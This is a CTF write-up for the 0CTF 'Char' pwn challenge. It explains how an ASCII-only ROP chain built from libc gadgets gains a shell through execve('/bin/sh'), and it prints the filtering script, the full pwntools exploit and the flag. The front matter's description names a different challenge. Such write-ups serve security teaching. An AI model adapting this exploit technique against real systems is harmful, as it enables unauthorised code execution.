 ```yaml
---
layout: post
title: 0Ctf - Char Writeup
description: "Writeup for the 2016 boston key party reversing 5 exercise, the frog fractions 2"
modified: 2016-03-15
tags: [writeup, ctf, pwn, rop]
comments: true
share: true
categories: [writeups]
---
```


This has been a fairly straightforward challenge. We are given a binary that has a textbook buffer overflow with no canaries and NX enabled. The only twist in the story is that the input is filtered in a way that only ASCII characters are allowed. Each byte must be between 0x20 and 0x7f otherwise the program terminates. This means that the challenge boils down to crafting a ROP chain that only contains the "good" characters.

Lucky for us, the program mmaps the provided libc.so to the ASCII friendly 0x5555e000 address. This map is going to serve our only source of ROP gadgets as the program binary itself loaded on a bad address. I began solving the problem by getting a list of the available libc calls that reside on good addresses. The `nm --dynamic libc.so` command can be used to list exported symbols and I quickly put together a little python script to filter the results.

```python
#!/usr/bin/python2
import sys

with open('functions.list') as f:
    for line in f:
        try:
            address = int(line.split()[0], 16) + 0x5555e000
        except ValueError:
            continue
        test = address
        try:
            for i in range(4):
                lbyte = (test & 0xff)
                if lbyte <= 0x1f or lbyte >0x7e:
                    raise ValueError('shit happens')
                test = test>>8
        except ValueError:
            continue
        sys.stdout.write(hex(address)+'/'+line) #line.split(' ', 1)[1])

```
Unfortunately neither the `system` function nor the `/bin/sh` string was at a good address so I had to look for something else. It stuck to me that the `gets` function was available which could be used to overwrite my buffer with unfiltered data. This approach was a dead end and I briefly explain why. `gets` requires a single parameter a pointer to read to, which ,since this challenge was written on i386, is passed on the stack. I ideally wanted to overwrite the stack buffer so I had to push the `esp` onto the stack, which seemed fairly easy to do. I quickly put together the ROP chain and then I realised that none of the libc variables are initialized. This is *obviously* not the real libc, just an mmaped binary blob, which means that libc init was never called and all the variables such as stdin pointer, env pointer are left as null. This of course breaks most of the libc function calls.

So I had to come up with a different approach relying only on system calls, or wrappers that do not use any of the aforementioned variables. My plan B became jumping to a `call execve` instruction with the correct parameters set up (I could not just jump to `execve` since it was on a bad address). The problem was that `execve` requires a pointer to the `/bins/sh` string, which is on a bad address, and two null pointers (for env and arg) which again cannot be directly supplied. So I had to set up these parameters in registers and push them on the stack in the right order then call execve.

I used `ROPgadget --all` to gather the gadgets and filtered the output the same way as I filtered the symbol list. I have spent some time looking through the gadgets to where and how I could set up the parameters and then I found a `pusha` gadget. `pusha` pushes all the general purpose registers onto the stack in the following order EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI. This was perfect for me all that was left to do:

* set EAX to 0 as it is going to be the env pointer
* set ECX to 0 as the arg pointer
* calculate the address of `/bin/sh` in EDX
* put the address of `call execve` in EBX
* set the address of the next gadget in EDI which is going to be executed after the `pusha`, this gadget should pop of 3 items from the stack (former ESP, EDI, ESI) so that the `call execve` gets executed

There were `pop edi` and `pop ebx` gadgets so setting those up was trivial, just as well as setting EAX to null with a `xor eax eax` gadget. ECX was set to null with and `xchg eax, ecx` gadget and EDX was calculated with an `add eax, 0xc35b0000` and `sub edx, eax` gadgets, setting EAX and EDX appropriately beforehand ( /bin/sh: 0x556bb7ec = 0x3a212121-(0xc35b0000+0x215a6935). The actual exploit code is really messy and I am too lazy to clean it up, so I am just gonna copy it here. I hope this explanation makes up for it. The ROP chain worked like a charm after spending considerable amount of time piecing it together, the flag was:

```
flag{Asc11_ea3y_d0_1t???}
``` 

```python
if __name__ == "__main__":
    c = remote(IP, PORT)

    binsh = 0x556bb7ec

#    * 0x556d2a51/0x00174a51 : pop ecx ; add al, 0xa ; ret
    popecx = 0x556d2a51
#    * hex((0x3a212121-(0xc35b0000+0x215a6935))&0xffffffff)
    edxval = 0x3a212121
    ecxval = 0x215a6935
#    * 0x555f3555/0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret
    popedx = 0x555f3555 # 0 eax popedi
    filler = 'CCCC'
#    * 0x556a6253/0x00148253 : mov eax, ecx ; ret
    moveaxecx = 0x556a6253
#    * 0x5557734b/0x0001934b : add eax, 0xc35b0000 ; ret
    addieax = 0x5557734b
#    * 0x5560365c/0x000a565c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
    subedxeax = 0x5560365c #pop esi,edi, ebp trash eax
    
	# Set up bin sh addr in edx
    payload = 'A'*32 +p32(popecx) + p32(ecxval) + p32(popedx) + p32(edxval) + filler + p32(moveaxecx)+p32(addieax) + p32(subedxeax) +filler*3
  

#    * 0x55617a5f/0x000b9a5f : xchg eax, ecx ; mov eax, 0xff ; jne 0xb9a41 ; ret
    xchgeaxecx = 0x55617a5f
#    * 0x555f6428/0x00098428 : xor eax, eax ; ret
    xoreax = 0x555f6428
    # Set null in ecx and eax
    payload += p32(xoreax) + p32(xchgeaxecx) + p32(xoreax)


#    * 0x555f2166/0x00094166 : pop ebx ; pop edi ; ret
    popebxedi = 0x555f2166
    callexecve = 0x55616967
    
	# Set up ebx and edi
	# the subedxeax gadget pops esi, edi, ebp so it is used to position the stack after the pusha
    payload += p32(popebxedi) + p32(callexecve) + p32(subedxeax)

#   * pushal; ret; -> returns edi
    pushal = 0x5563704c
    # pushall
    payload += p32(pushal)
 
    #print hexdump(payload)
    payload += 'B'*(2398-len(payload))
    #sys.stdout.write(payload)
    #sys.stdout.flush()
    c.sendline(payload)

    c.interactive()
```
